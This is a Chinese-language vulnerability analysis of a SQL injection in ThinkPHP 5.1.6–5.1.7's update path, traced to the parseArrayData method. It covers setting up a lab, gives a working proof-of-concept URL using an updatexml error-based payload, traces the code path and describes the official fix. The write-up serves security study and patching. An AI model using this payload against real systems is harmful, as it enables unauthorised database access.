 5.1.6 \<= Thinkphp \<= 5.1.7（非最新的 5.1.8 版本也可利用）
===========================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **update**
方法注入）。本次漏洞存在于 **Mysql** 类的 **parseArrayData**
方法中由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL** 语句，导致
**SQL注入漏洞** 的产生

二、漏洞影响
------------

5.1.6\<=ThinkPHP\<=5.1.7 (非最新的 **5.1.8** 版本也可利用)。

三、复现过程
------------

### 漏洞环境

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.6.0",
        "topthink/framework": "5.1.7"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->where(['id' => 1])->update(['username' => $username]);
            return 'Update success';
        }
    }

在 **config/database.php** 文件中配置数据库相关信息，并开启
**config/app.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );
    insert into users(id,username) values(1,'mochazz');

### poc

    http://0-sec.org:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId26.png)

### 漏洞分析

![2.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId28.png)

首先在官方发布的 **5.1.9**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其删除了 **parseArrayData** 方法，这处 **case**
语句之前出现过 **insert** 注入，所以比较可疑。

![3.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId29.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **Query** 类的 **update** 方法，该方法调用了
**Connection** 类的 **update**
方法，该方法又调用了 **\$this-\>builder** 的 **insert** 方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql** 类，该类继承于 **Builder** 类，代码如下：

![4.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId30.png)

在 **Builder** 类的 **update** 方法中，调用了 **parseData**
方法。这个方法中的 **case** 语句之前存在 **SQL注入漏洞**
，现已修复，然而却多了 **default**
代码段，而这段代码也是在新版本中被删除的。

![5.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId31.png)

我们跟进到 **parseArrayData**
方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的
**insert** 注入一样，用 **str\_replace**
将变量填充到 **SQL** 语句中，最终执行，导致 **SQL注入漏洞** 。

![6.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId32.png)

上面 **第15行** 的 **\$result** 相当于 **\$a(\'\$b(\$c)\')** 其中
**\$a、\$b、\$c** 均可控。最后形成的 **SQL** 语句如下：

    UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;

接着我们想办法闭合即可。我们令 **\$a =
updatexml(1,concat(0x7,user(),0x7e),1)\^** 、 **\$b = 0** 、 **\$c = 1**
，即：

    UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1

### 漏洞修复

官方修复方法比较暴力，直接将 **parseArrayData** 方法删除了。

![7.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![8.png](resource/5.1.6=Thinkphp=5.1.7(非最新的5.1.8版本也可利用)sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
